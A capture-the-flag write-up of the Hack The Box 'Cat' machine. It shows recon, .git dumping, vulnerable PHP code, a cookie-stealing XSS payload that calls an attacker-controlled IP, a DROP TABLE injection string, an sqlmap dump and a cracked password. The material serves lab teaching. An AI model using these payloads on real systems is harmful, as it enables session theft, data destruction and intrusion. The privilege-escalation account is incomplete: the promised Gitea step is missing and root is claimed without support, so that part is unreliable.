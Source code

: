 ```yaml
---
title: Cat - Hack The Box Writeup
date: 2025-02-03
categories: [CTF, Writeups, HTB]
tags: [htb, linux, rce, lfi, stored-xss, privilege-escalation, gitea]
image:
  path: ![image](https://github.com/user-attachments/assets/230171e9-d065-440a-8015-051c32998604)

  description: A detailed walkthrough of the Cat HTB machine, showcasing exploitation of stored XSS, SQL injection, and Gitea vulnerabilities.
author: l4tmur
---
```


## Nmap Recon and Initial Enumeration

To begin our reconnaissance, we run an Nmap scan to identify open ports and services on the target machine:

```bash
nmap -sV 10.10.11.53 -T5 -Pn
```

The scan results reveal that Port 22 (SSH) and Port 80 (HTTP) are open.

Next, we attempt to access the website by entering the machine’s IP address in a browser. Instead of a standard page, we notice that the hostname `cat.htb` is referenced. To resolve this domain locally, we add it to our `/etc/hosts` file:

```bash
echo "10.10.11.53 cat.htb" | sudo tee -a /etc/hosts
```

With this update, we can now access `cat.htb` in our browser to further explore potential attack vectors.

## Exploring the Application

Before diving deeper, let’s explore the application to get an overall idea.

The website appears to be a community page for cat lovers, featuring a voting system. On further inspection, we find a voting section:

![Voting Section](path-to-voting-image.jpg)

However, voting is currently closed. This suggests that additional functionalities might be accessible after logging in.

### Checking Cookies

Even before logging in, we notice that the application assigns cookies to our session:

```bash
Cookie: session=xyz123
```

### Logging In

After logging in, we gain access to more features, including the ability to participate in contests. Interestingly, there is also a file upload option, which could potentially lead to Remote Code Execution (RCE)—something worth investigating further.

## Subdomain & Directory Enumeration

Meanwhile, we check for subdomains but find nothing significant. Next, we perform directory enumeration using `dirsearch` with a default wordlist:

```bash
dirsearch -u http://cat.htb/
```

During enumeration, we discover a `.git` directory:

```bash
[200] GET /.git/
```

### Extracting .git Repository

To leverage this, we use a tool called `git-dumper`, which helps automate the extraction of `.git` repositories. This tool checks if directory listing is enabled and recursively downloads the `.git` contents for further analysis:

```bash
git-dumper http://cat.htb/.git ./cat_source
```

### Reviewing Extracted Source Code

After extracting the `.git` directory, we now have access to a large portion of the source code. This provides us with a deeper understanding of the application’s structure and potential vulnerabilities.

## Identifying Vulnerabilities

### 1. Stored XSS in Registration (`join.php`)

Upon reviewing `join.php`, we notice an unsanitized user input being directly stored in the database during registration:

```php
// Vulnerable registration code
if ($_SERVER["REQUEST_METHOD"] == "GET" && isset($_GET['registerForm'])) {
    $username = $_GET['username'];  //  Unsanitized input
    $email = $_GET['email'];        //  Unsanitized input

    $stmt_insert = $pdo->prepare("INSERT INTO users (username, email, password) VALUES (:username, :email, :password)");
    $stmt_insert->execute([':username' => $username, ':email' => $email, ':password' => $password]);
}
```

Here, the `username` and `email` fields are not sanitized or validated before being stored in the database. This allows an attacker to inject Stored XSS payloads.

**Example Attack:**

An attacker could register with the following username:

```bash
<script>alert(document.cookie)</script>
```

Since the input is stored in the database without sanitization, whenever this username is displayed, the malicious script executes, potentially stealing cookies from other users.

### 2. SQL Injection in `accept_cat.php`

Analyzing `accept_cat.php`, we find another major vulnerability: SQL Injection due to direct user input in SQL queries.

```php
// VULNERABLE CODE:
$cat_name = $_POST['catName'];
$sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
$pdo->exec($sql_insert);
```

Here’s why this is dangerous:

1. `$cat_name` is not sanitized before being used in the SQL query.
2. String concatenation is used, making it prone to SQL injection attacks.
3. `exec()` is used instead of prepared statements, leaving the application exposed.

**Example Attack:**

An attacker could send a POST request with:

```bash
catName = '); DROP TABLE accepted_cats; --
```

This would result in the following SQL query execution:

```sql
INSERT INTO accepted_cats (name) VALUES (''); DROP TABLE accepted_cats; --')
```

If executed, this would delete the entire `accepted_cats` table, causing major data loss.

## Exploitation

### Stealing Admin Cookies via Stored XSS

From our earlier findings, we know that the admin (Axel) reviews contest submissions. When he does, the malicious username is displayed, and the payload is executed.

Payload:

```html
<script>document.location='http://10.10.14.17:1111/?c='+document.cookie;</script>
```

Start a web server to capture the cookie:

```bash
python3 -m http.server 1111
```

Once Axel reviews the submission, his cookie is sent to our server:

```bash
GET /?c=admin-session-cookie HTTP/1.1
```

Using the admin cookie, we access the admin panel and exploit the SQL injection in `accept_cat.php` to dump the database.

### Database Dump with SQLmap

Copy the vulnerable request and save it in a file, then run SQLmap:

```bash
sqlmap -r request.txt --dump
```

From the database dump, we retrieve password hashes for multiple users. Cracking the hashes reveals valid credentials for `rosa`:

```bash
rosa:soyunaprincesarosa
```

### Privilege Escalation

While exploring the machine as `rosa`, we check the Apache logs and discover Axel’s SSH credentials:

```bash
cat /var/log/apache2/access.log
```

Using these credentials, we log in as `axel` and retrieve the root flag.

---

This concludes the walkthrough for the Cat HTB machine. We exploited stored XSS, SQL injection, and misconfigured Git repositories to gain full access to the machine. Happy hacking!

